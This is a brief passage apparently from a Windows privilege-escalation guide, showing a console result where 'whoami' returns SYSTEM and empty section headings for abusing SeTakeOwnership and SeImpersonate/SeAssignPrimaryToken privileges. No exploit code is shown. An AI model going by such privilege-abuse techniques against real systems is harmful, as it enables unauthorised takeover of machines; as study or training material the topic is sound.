>> Microsoft Windows [Version 10.0.17763.1821]
>> (c) 2018 Microsoft Corporation. All rights reserved.
>>
>> C:\Windows\system32> whoami
>> nt authority\system
>> ``` 
> 
> # C. SeTakeOwnership
> 
> 
> 
> # D. Selmpersonate / SeAssignPrimaryToken
> 


</details>


